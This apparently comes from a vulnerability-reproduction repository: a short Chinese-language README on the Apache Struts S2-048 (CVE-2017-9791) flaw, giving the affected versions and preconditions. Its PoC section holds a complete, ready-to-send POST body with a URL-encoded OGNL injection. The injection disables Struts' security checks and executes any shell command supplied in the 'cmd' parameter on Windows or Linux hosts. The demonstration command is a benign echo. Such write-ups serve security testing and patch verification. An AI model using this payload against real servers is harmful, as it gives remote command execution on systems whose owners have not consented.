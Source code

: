 # S2-048(CVE-2017-9791)

## Affected Version 

Struts 2.3.x

此外需要满足下面的条件：

1. 调用非默认插件 struts2-struts1-plugin.jar
2. 代码中创建 ActionMessage 对象使用 字符串拼接的形式，如下：

    messages.add("msg", new ActionMessage("Gangster " + gform.getName() + " was added"));

## poc

> 漏洞环境使用 Struts-2.3.32 版本 的 showcase 应用 

Py 脚本验证 (poc.py)

![](py-poc.png)

Forefox Hackbar 验证：

POST 数据包：

    age=1&cmd=echo Affected by S2-048&__checkbox_bustedBefore=true&name=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%23parameters.cmd%5B0%5D%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27%2Fc%27%2C%23cmd%7D%3A%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%23ros%3D%28%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getOutputStream%28%29%29%29.%28%40org.apache.commons.io.IOUtils%40copy%28%23process.getInputStream%28%29%2C%23ros%29%29.%28%23ros.flush%28%29%29%7D&description=test

结果：

![](firefox-poc.png)

## References

1. https://cwiki.apache.org/confluence/display/WW/S2-048
2. https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-048
